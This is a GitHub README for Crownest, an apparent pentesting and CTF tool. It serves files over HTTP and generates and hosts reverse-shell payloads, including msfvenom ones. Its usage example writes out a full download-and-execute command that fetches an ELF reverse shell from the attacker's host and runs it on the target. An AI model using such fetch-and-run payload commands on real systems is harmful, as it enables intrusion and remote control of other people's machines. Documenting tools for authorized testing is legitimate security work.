


<div align="center">


# Crownest

### Host files. Generate payloads. Land shells. All from one window.

A hardened HTTP file server with a desktop GUI, built for pentesters and CTF players.

<br>


</div>

---

## 📖 About

**Crownest** is a file-hosting tool created by **Muhamad Bion Tadavi**.

It helps pentesters and CTF players **host files fast** during an engagement, the
files you constantly need to push to a target: enumeration scripts, binaries,
tooling, loot. Point the target at a URL and go.

But Crownest is more than a file server. It can also **generate reverse-shell
payloads and host them automatically** in a single click, then hand you a
ready-to-paste **download-and-execute** command for the target. No more juggling
`msfvenom`, a web server, and a notepad full of one-liners, it is all in one
place, built on **Java + Swing** with **zero external dependencies**.

---

## ✨ Features

Crownest does two things, and does them well.

### 🗂️ 1. HTTP File Hosting

Drag & drop any file or folder and it is served instantly. Every item gives you a
one-click **Copy URL** / **Copy Filename**, and a **live HTTP log** shows each request
colour-coded by status, so you know the moment the target pulls your file.

### 🧬 2. Generate Reverse Shell File / Payload

Pick a payload (60+ reverse shells, the full **MSFVenom** set, or your own PowerShell
script templates), set **LHOST/LPORT**, and Crownest builds it, **hosts it automatically**,
and gives you a ready-to-paste **download-and-execute** command tailored to the target OS.

---

## 🚀 Usage

Crownest opens with two tabs under the URL bar.

### 🗂️ Files tab — host anything

Drag files or folders into the left panel (or use **Add Files**). Select one and its
URL appears in the bar up top, ready to copy. Watch hits arrive in the live HTTP log.

<div align="center">

</div>

> **Example:** drop `linpeas.sh`, copy `http://10.10.14.7:8080/linpeas.sh`, and pull it on
> the box. The HTTP log shows the `GET /linpeas.sh 200` the moment the target grabs it.

### 🧬 Revshell tab — generate, host, and get the run command

Pick the **Target OS** and **Shell**, choose a **Payload type** (revshells, MSFVenom, or a
script template), set **LHOST/LPORT**, and hit **Generate**. Crownest builds the payload,
hosts it, and shows the **Execute suggestion**, a copy-paste download-and-execute command
for the target. Click any hosted payload later to bring its suggestion back up.

<div align="center">

</div>

> **Example:** generate a Linux `msfvenom` ELF and Crownest hands you
> `wget http://10.10.14.7:8080/reverse.elf -O /tmp/reverse.elf; chmod +x /tmp/reverse.elf && /tmp/reverse.elf`
> — paste it on the target, catch the shell.

### ⚙️ Settings menu (top-left)

- **Select IP** — bind to any interface (VPN `tun`/`tap`/`wg` listed first).
- **Port** — change the listening port, with an in-use check.
- **Advanced** — theme, TLS, auth, uploads, IP allow-list, rate-limit, lockout, and more.

---

## 📦 Requirements

- **Linux or Windows** — Crownest is pure Java (Swing), so it runs on both.
- **JDK 17 or newer** — required to build/install. On Windows the installer bundles a
  runtime into the `.exe`, so the machine you run it on afterwards needs nothing else.
- **Metasploit Framework** — **optional**, and needed **only** to generate the
  **MSFVenom** payload type. Everything else (file hosting, revshells payloads, script
  templates, execute suggestions) works without it.

```bash
# Debian / Ubuntu / Kali
sudo apt install default-jdk
# Arch / Manjaro
sudo pacman -S jdk-openjdk
```

On Windows, install any JDK 17+ (for example [Adoptium Temurin](https://adoptium.net/))
and make sure `java` and `jpackage` are on your `PATH`.

---

## 🔧 Install

### 🐧 Linux

```bash
git clone https://github.com/biontdv/crownest.git
cd crownest

./install.sh                 # per-user install (no root)  → ~/.local
# or
sudo ./install.sh --system   # system-wide install         → /opt + /usr
```

The installer builds the jar and sets up a **`crownest`** command on your `PATH`, an
**application-launcher entry** (search “Crownest” in your menu), and the **icon**. Then
run `crownest`, or launch it from your application menu.

**Uninstall:** `./install.sh --uninstall` (add `--system` for a system install).

### 🪟 Windows

```powershell
git clone https://github.com/biontdv/crownest.git
cd crownest

powershell -ExecutionPolicy Bypass -File .\install.ps1
```

This builds a native **`Crownest.exe`** (with a **bundled Java runtime**, via the JDK's
`jpackage`), installs it to `%LOCALAPPDATA%\Programs\Crownest`, and creates a **Start Menu**
shortcut and a **Desktop** shortcut. Launch **Crownest** from the Start Menu, or run
`Crownest` from a new terminal.

**Uninstall:** `powershell -ExecutionPolicy Bypass -File .\install.ps1 -Uninstall`

On both platforms your settings in the config folder (`~/.config/crownest` on Linux,
`%APPDATA%\Crownest` on Windows) are preserved across reinstalls.

<details>
<summary><b>Build from source (without installing)</b></summary>

<br>

**Linux**
```bash
./build.sh                 # compiles to build/crownest.jar
./crownest                 # runs it from the build directory
# or directly
java -jar build/crownest.jar
```

**Windows**
```powershell
.\build.ps1                # compiles to build\crownest.jar
java -jar build\crownest.jar
```
</details>

---

## 🛡️ Security notes

- Nothing is served unless you explicitly add it, there is no document root to escape from.
- Path traversal (`../`, encoded, double-encoded, null bytes) and symlink escapes are rejected.
- Payload generation runs as an argument vector (never a shell) with strict LHOST/LPORT
  validation, so a hostile value cannot inject commands.
- Optional TLS, HTTP Basic auth (PBKDF2-HMAC-SHA256), IP allow-list, rate-limiting and lockout.

---

## ⚠️ Disclaimer

Crownest is built for **good, lawful purposes only**: authorized penetration testing,
security research, CTF competitions, and education.

**You are responsible for how you use it.** Only use Crownest against systems you own
or have **explicit written permission** to test. The author, **Muhamad Bion Tadavi**, is
**not responsible for any illegal activity, misuse, or damage** caused by this tool. If you
are not authorized to test a target, do not use it.

---

<div align="center">

Made with 🖤 by **Muhamad Bion Tadavi**

<sub>For pentesters and CTF players. Use responsibly.</sub>

</div>
